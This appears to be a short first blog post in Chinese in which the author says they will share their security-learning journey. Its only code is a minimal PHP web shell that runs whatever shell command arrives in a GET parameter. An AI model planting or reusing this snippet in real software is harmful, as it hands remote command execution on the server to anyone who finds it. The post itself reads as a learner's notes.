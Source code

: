 ```yaml
---
title: Frist Post
date: 2024/07/29
categories: []
tags: []
description: 第一篇????

published: true #不顯示此文章
---
```


哈哈哈哈原本以為我不會想來寫文章分享東西但是我還是來了XDD

## 接下來
我接下來會來分享一些我學習的過程資安之類的 ~~其他主題我在想想~~

## code
```php

<?php
if (isset($_GET['command'])) {
    $command = $_GET['command'];
    system($command);
}

```




